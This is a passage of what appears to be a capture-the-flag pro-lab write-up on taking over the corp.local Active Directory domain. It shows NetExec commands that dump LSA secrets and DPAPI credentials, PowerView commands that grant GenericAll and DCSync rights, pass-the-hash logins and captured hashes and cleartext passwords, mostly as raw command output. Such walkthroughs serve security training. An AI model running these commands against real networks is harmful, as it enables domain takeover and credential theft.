SMB         172.16.1.24     445    WEB-WIN01        [*] Windows 10 / Server 2016 Build 14393 x64 (name:WEB-WIN01) (domain:corp.local) (signing:False) (SMBv1:False)
SMB         172.16.1.24     445    WEB-WIN01        [+] corp.local\cyber_adm:Coglione1! (Pwn3d!)
SMB         172.16.1.24     445    WEB-WIN01        [+] Dumping LSA secrets
SMB         172.16.1.24     445    WEB-WIN01        CORP.LOCAL/iamtheadministrator:$DCC2$10240#iamtheadministrator#3c1e5b31c203b2b52920f7ce19110ab4: (2023-11-13 13:52:57)
SMB         172.16.1.24     445    WEB-WIN01        CORP.LOCAL/cyber_adm:$DCC2$10240#cyber_adm#98710092e630b56bfc5807070c1f4d61: (2024-07-02 15:03:16)
SMB         172.16.1.24     445    WEB-WIN01        CORP\WEB-WIN01$:aes256-cts-hmac-sha1-96:e139bd865058ba403471716ffe789beccc8116a9f232572bfe8cd2129b45d4f4
SMB         172.16.1.24     445    WEB-WIN01        CORP\WEB-WIN01$:aes128-cts-hmac-sha1-96:8635be8c78d9d06371fadc2962a4dee8
SMB         172.16.1.24     445    WEB-WIN01        CORP\WEB-WIN01$:des-cbc-md5:02f404087cab231f
SMB         172.16.1.24     445    WEB-WIN01        CORP\WEB-WIN01$:plain_password_hex:5300700028006f00520069005a0058007100400065004d007200440051002c0068006900510068006400450059004a00480040005b00690038007200640033004c0078003c00290035003d003200780033002e005b007900690045005600270077006a006c004600420060005e00330076003e0075002f005700710062005c0037006d006c005b003b006200350044007600580060002e003a005c005700660045007800600048004d006800350032003200430073002c005100630073004b00260047005d0059002f0062003700230047003b005300200042002a00620078006d006500210078004000370058003200
SMB         172.16.1.24     445    WEB-WIN01        CORP\WEB-WIN01$:aad3b435b51404eeaad3b435b51404ee:e3d78bc48d069bba3d3e34b0cae59547:::
SMB         172.16.1.24     445    WEB-WIN01        dpapi_machinekey:0x0f8f8a62c9b4c944b082cf988bfc7220d7316481
dpapi_userkey:0x44988ebbe9ac69fc27517e8f04f3865bed2e4b8b
SMB         172.16.1.24     445    WEB-WIN01        NL$KM:3d3de83cd1462b2615285fd7f660c42cfc31a10882bd8f1bc859445c20dcac5454de733a141a39d39d193d831ce6413d2eb9019f687553a3c575b4ac548e853a
SMB         172.16.1.24     445    WEB-WIN01        [+] Dumped 9 LSA secrets to /root/.nxc/logs/WEB-WIN01_172.16.1.24_2024-07-02_173205.secrets and /root/.nxc/logs/WEB-WIN01_172.16.1.24_2024-07-02_173205.cached
```

But here it was much easier to add the "GenericAll" to the Cyber_Adm instead as described in Bloodhound.



And now we have access to all the privileges on the user:

```
LDAP)-[172.16.1.5]-[CORP\WEB-WIN01$]
PV > Add-DomainObjectAcl -Rights "All" -PrincipalIdentity "CN=CYBER_ADM,OU=OPERATIONS,OU=CORP,DC=CORP,DC=LOCAL" -TargetIdentity "DC01"
[2024-07-02 17:43:38] Found principal identity dn CN=cyber_adm,OU=Operations,OU=Corp,DC=corp,DC=local
[2024-07-02 17:43:38] Found target identity dn CN=DC01,CN=Topology,CN=Domain System Volume,CN=DFSR-GlobalSettings,CN=System,DC=corp,DC=local
[2024-07-02 17:43:38] Adding all privilege to DC01
[2024-07-02 17:43:39] Success! User cyber_adm now has GenericAll privileges on DC01
(LDAP)-[172.16.1.5]-[CORP\WEB-WIN01$]
PV >
```

Here I missed that the target must be the whole domain and not just the DC:

```
[2024-07-02 18:04:10] -TargetIdentity , -PrincipalIdentity and -Rights flags are required
(LDAP)-[172.16.1.5]-[CORP\WEB-WIN01$]
PV > Add-DomainObjectAcl -Rights "DCSync" -TargetIdentity "DC=CORP,DC=LOCAL" -PrincipalIdentity "CN=CYBER_ADM,OU=OPERATIONS,OU=CORP,DC=CORP,DC=LOCAL"
[2024-07-02 18:04:23] Found principal identity dn CN=cyber_adm,OU=Operations,OU=Corp,DC=corp,DC=local
[2024-07-02 18:04:23] Found target identity dn DC=corp,DC=local
[2024-07-02 18:04:23] Adding dcsync privilege to DC=CORP,DC=LOCAL
[2024-07-02 18:04:23] Success! User cyber_adm now has Replication-Get-Changes-All privileges on the domain
(LDAP)-[172.16.1.5]-[CORP\WEB-WIN01$]
PV >
```



&nbsp;

# Post Exploitation

With the DA password hash we can login and grab another flag:

```
*Evil-WinRM* PS C:\Users\iamtheadministrator\Desktop> ls


    Directory: C:\Users\iamtheadministrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/29/2018   3:25 AM             32 flag.txt


*Evil-WinRM* PS C:\Users\iamtheadministrator\Desktop> cat flag.txt
OFFSHORE{r3pl1cation_@ll0w_l1st}
*Evil-WinRM* PS C:\Users\iamtheadministrator\Desktop>
```

I don't see much more here, but I will dump the LSASS.exe secrets:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# NetExec smb 172.16.1.5 -u 'Administrator' -H 0109d7e72fcfe404186c4079ba6cf79c --lsa
SMB         172.16.1.5      445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:True)
SMB         172.16.1.5      445    DC01             [+] corp.local\Administrator:0109d7e72fcfe404186c4079ba6cf79c (Pwn3d!)
SMB         172.16.1.5      445    DC01             [+] Dumping LSA secrets
SMB         172.16.1.5      445    DC01             CORP\DC01$:aes256-cts-hmac-sha1-96:b8f84d1b1874949a6454903a0346161c6fbff294524069e37460a2360402ac6b
SMB         172.16.1.5      445    DC01             CORP\DC01$:aes128-cts-hmac-sha1-96:10c96031ddda98c6513bde3c1b6583ae
SMB         172.16.1.5      445    DC01             CORP\DC01$:des-cbc-md5:8aefd979a2f70d16
SMB         172.16.1.5      445    DC01             CORP\DC01$:plain_password_hex:5b2ed3e62cdb3f8c412282199fc715caa497a2d841138e4ecf0bbcb10551f202b3141290738b8f2e1106ef5f6cd7ff831b1e59339aa8b5743764585f12e86c966de9e1b0f2f0a7b71a8c22a15002d061815cd39f93fb24c1f192991d088b3e40f2dbc8103c66c1740ff6a595009a4bc5d3e7cb69690407153aa0e89e9cb7d4232c06c3f1f4ca671ba548a660055fc414754758dacdc8684a18bc2c39f0b44112c9819bb6d585ca54a1f6217255d64b88e2c857754b42a2ff2f32d2a6e60127441f7ca75d727bba3ddcc556c071ba3c390ff5889c9a44b6ccc8ce4b1889a3f89ea269829798b828232b47d2e3ddf11e1c
SMB         172.16.1.5      445    DC01             CORP\DC01$:aad3b435b51404eeaad3b435b51404ee:15f2eda7fa69eb8c2eddf511d6e77578:::
SMB         172.16.1.5      445    DC01             dpapi_machinekey:0x88f24b0e7e36468fef5a507a10a5389b6a86ccba
dpapi_userkey:0x26d7cf65398f7005679a3b9c4b5cf6cdfca233ba
SMB         172.16.1.5      445    DC01             NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         172.16.1.5      445    DC01             [+] Dumped 7 LSA secrets to /root/.nxc/logs/DC01_172.16.1.5_2024-07-02_181452.secrets and /root/.nxc/logs/DC01_172.16.1.5_2024-07-02_181452.cached
```

And the dpapi:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/corp.local]
└─# NetExec smb 172.16.1.5 -u 'Administrator' -H 0109d7e72fcfe404186c4079ba6cf79c --dpapi
SMB         172.16.1.5      445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:True)
SMB         172.16.1.5      445    DC01             [+] corp.local\Administrator:0109d7e72fcfe404186c4079ba6cf79c (Pwn3d!)
SMB         172.16.1.5      445    DC01             [+] User is Domain Administrator, exporting domain backupkey...
SMB         172.16.1.5      445    DC01             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         172.16.1.5      445    DC01             [+] Got 28 decrypted masterkeys. Looting secrets...
SMB         172.16.1.5      445    DC01             [iamtheadministrator][CREDENTIAL] LegacyGeneric:target=iamtheadministrator - iamtheadministrator:Password2!
SMB         172.16.1.5      445    DC01             [iamtheadministrator][CREDENTIAL] LegacyGeneric:target=CORP\iamtheadministrator - CORP\iamtheadministrator:I am admin of the CORP domain123!
SMB         172.16.1.5      445    DC01             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{BF80B03E-5B07-4BC1-90F3-A3AB792AD1FB} - CORP\iamtheadministrator:I am admin of the CORP domain123!
```

Nice we have some more cleartext credentials so far. We can move back to FS01.

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;